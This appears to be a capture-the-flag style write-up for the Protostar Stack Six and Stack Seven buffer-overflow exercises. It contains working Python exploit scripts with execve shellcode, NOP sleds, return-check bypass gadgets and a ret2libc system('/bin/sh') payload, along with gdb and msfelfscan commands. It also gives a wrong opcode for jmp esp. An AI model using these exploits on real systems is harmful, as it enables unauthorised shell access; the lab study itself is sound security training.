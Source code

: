 

### 0x0F - Ret2Libc attacks via Stack Six exercise

What you need to know beforehand...

1. __builtin_return_address(0) is a function from compilter, allows you to read current return address from the stack.

    - From analysing the assembly code, the sequence of this function should be as follows:

        ```
        0x080484af <getpath+43>:	mov    eax,DWORD PTR [ebp+0x4]
        0x080484b2 <getpath+46>:	mov    DWORD PTR [ebp-0xc],eax
        0x080484b5 <getpath+49>:	mov    eax,DWORD PTR [ebp-0xc]
        ```

    - Most likely, the return address is at ebp, which is the base pointer, which also makes sense since the base pointer points at the bottom of the stack which is most likely where the return address will be

    - One instruction after executing gets() in getpath()

        ```
        (gdb) r
        The program being debugged has been started already.
        Start it from the beginning? (y or n) y
        Starting program: /opt/protostar/bin/stack6 ""
        input path please: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB
        
        Breakpoint 3, getpath () at stack6/stack6.c:15
        15	in stack6/stack6.c
        (gdb) x $ebp+0x4
        0xbffffccc:	0x42424242
        ```

2. Basically for this task, we cannot return to the stack due to the conditional which prevents any return address starting with `bf`. When we run `cat /proc/self/maps`, we observe that the stack address range starts with `bf`

    ```
    $ cat /proc/self/maps
    08048000-08052000 r-xp 00000000 00:10 1639       /bin/cat
    08052000-08053000 rw-p 0000a000 00:10 1639       /bin/cat
    08053000-08074000 rw-p 00000000 00:00 0          [heap]
    b7d21000-b7e96000 r--p 00000000 00:10 1694       /usr/lib/locale/locale-archive
    b7e96000-b7e97000 rw-p 00000000 00:00 0 
    b7e97000-b7fd5000 r-xp 00000000 00:10 759        /lib/libc-2.11.2.so
    b7fd5000-b7fd6000 ---p 0013e000 00:10 759        /lib/libc-2.11.2.so
    b7fd6000-b7fd8000 r--p 0013e000 00:10 759        /lib/libc-2.11.2.so
    b7fd8000-b7fd9000 rw-p 00140000 00:10 759        /lib/libc-2.11.2.so
    b7fd9000-b7fdc000 rw-p 00000000 00:00 0 
    b7fe0000-b7fe2000 rw-p 00000000 00:00 0 
    b7fe2000-b7fe3000 r-xp 00000000 00:00 0          [vdso]
    b7fe3000-b7ffe000 r-xp 00000000 00:10 741        /lib/ld-2.11.2.so
    b7ffe000-b7fff000 r--p 0001a000 00:10 741        /lib/ld-2.11.2.so
    b7fff000-b8000000 rw-p 0001b000 00:10 741        /lib/ld-2.11.2.so
    bffeb000-c0000000 rw-p 00000000 00:00 0          [stack]
    ```

3. RET instruction looks at the address at the top of the stack, pops it and jumps there (set eip to that value that got pop-ed, making it the MEMORY ADDRESS of the next instruction to execute)

### Answer for Stack 6 (using gdb/objdump)

1. To bypass the check, we can set the address of the return address after our padding then the rest of our original exploit (i.e. overwrite eip + nops + shellcode)

2. What happens here is that once our input passes the check, the program executes the first RET instruction which pops off the value at the top of the stack (the memory address that ESP is pointing to) and executes it. In this case, instead of popping off the memory address to redirect code execution to ESP which is where the rest of our shellcode is at, it will first pop off the return address of the getpath() function. Only then, will we proceed to redirect code execution

3. Basically, the important address which will cause our exploit to fail would ONLY be the one AFTER the padding, as that will be the address that will be stored in $eax and compared later on.

4. To get the address of the RET instruction, you can either use gdb or `objdump -S /binary`

Python code:

```
import struct
padding     = "0000" + "A" * 76 # add 4 more bytes to account for the unsigned int ret variable, ref https://docs.microsoft.com/en-us/cpp/cpp/data-type-ranges?view=msvc-170
eip         = "\xf0\xfc\xff\xbf"
bypass      = struct.pack("I", 0x080484f9)
eip         = struct.pack("I", 0xbffffcf0+30) # add 30 due to unreliability in stack
breakpoints = "\xCC" * 10
nopsled     = "\x90" * 100
exploit     = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
    
print padding+bypass+eip+nopsled+exploit
```

### Answer for Stack 6 (using ret2libc)

Background information:

- W^X: Never have a memory section which is both writeable and executable (cause thats what buffer overflow does essentially)

- DEP/NX Bit: Are examples of memory protection scheme which prevents code execution

- Ret2libc is an example of an attack which can help bypass these restrictions

- How it works

1. Return to System() function

2. Use System() with "/bin/sh" argument to start a bash shell

- What do you need

1. Location of System()

    - `(gdb) p system`

2. Return address - can be anything, but most people use an exit function() to end the function properly

3. Location of "/bin/sh" 

    - `cat /proc/self/maps` to get starting address of /lib/libc-2.11.2.so library

    - `find 0xb7e97000, +9999999, "/bin/sh"` to find location of /bin/sh in memory (may not always work)

    - `strings -a -t x /lib/libc-2.11.2.so | grep "/bin/sh"` to find the offset to from the starting address of the library to the address of /bin/sh

    - `x/s 0xb7e97000 + 0x11f3bf` to find location of /bin/sh in memory (more reliable)

Python code:

```
import struct
padding     = "0000" + "A" * 76
_system = struct.pack("I", 0xb7ecffb0)
_return = "AAAA" # return address after system call completed
_argument = struct.pack("I", 0xb7fb63bf)

print padding+_system+_return+_argument
```

### Stack7

### Answer (via objdump/gdb or ret2libc)

- Exactly the same as Stack6, just need to change return address if you are doing the hardcode method

    ```
    import struct
    padding     = "0000" + "A" * 76 # add 4 more bytes to account for the unsigned int ret variable, ref https://docs.microsoft.com/en-us/cpp/cpp/data-type-ranges?view=msvc-170
    eip         = "\xf0\xfc\xff\xbf"
    bypass      = struct.pack("I", 0x08048544)
    eip         = struct.pack("I", 0xbffffcf0+30) # add 30 due to unreliability in stack
    breakpoints = "\xCC" * 10
    nopsled     = "\x90" * 100
    exploit     = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
    print padding+bypass+eip+nopsled+exploit
    ```

### Answer using msfelfscan

- Use msfelfscan to find jmp esp instruction (for our case it does not work)

    `msfelfscan -j esp -f BINARY` / `objdump -d BINARY | grep "ff e9"` (you can also use objdump with jmp esp's opcode ffe9)

- Use msfelfscan to find POP POP RET instruction, a popular ROP gadget

    `msfelfscan -s -f BINARY`

    ```
    import struct
    padding     = "0000" + "A" * 76 # add 4 more bytes to account for the unsigned int ret variable, ref https://docs.microsoft.com/en-us/cpp/cpp/data-type-ranges?view=msvc-170
    bypass      = struct.pack("I", 0x08048492)
    pop1        = "PPPP"
    pop2        = "QQQQ"
    eip         = struct.pack("I", 0xbffffcf0+30) # add 30 due to unreliability in stack
    breakpoints = "\xCC" * 10
    nopsled     = "\x90" * 100
    exploit     = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
    print padding+bypass+pop1+pop2+eip+nopsled+exploit
    ```

- Use msfelfscan to find CALL EAX instruction (faced many issues with environment variables messing up exploit code. Using the nops method alone did not work...)

    `msfelfscan -j EAX` / `objdump -d BINARY | grep "ff d0"`

    ```
    import struct
    padding     = "0000" + "A" * 76
    bypass      = struct.pack("I", 0x08048492)
    nopsled1     = "\x90" * 8
    hotfix      = struct.pack("I", 0xbffffe3c)
    nopsled    = "\x90" * 50
    exploit     = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
    
       
    print padding+bypass+nopsled1+hotfix+nopsled+exploit
    ```

    - bypass would be the `CALL EAX` instruction
    
    - When we observe the crash initially, we see that we get a memory access violation and eip is pointing to 0x90909090

    - Observing $esp and counting the number of 0x90 left in the stack, we know for a fact that the $eip will point to the address after 8 * "\x90".

- To ensure that our exploits works properly, we need to ensure that the execution environment is consistent

    1. For gdb

        ```
        env - gdb BINARY
        (gdb) unset env LINES
        (gdb) unset env COLUMNS
        ```
    
    2. For normal running

        ```
        env -i sh
        ```

### Additional Stuff:

- The address that we returned to in our first answer, is known as a gadget (part of ROPGadgets, learn more next time)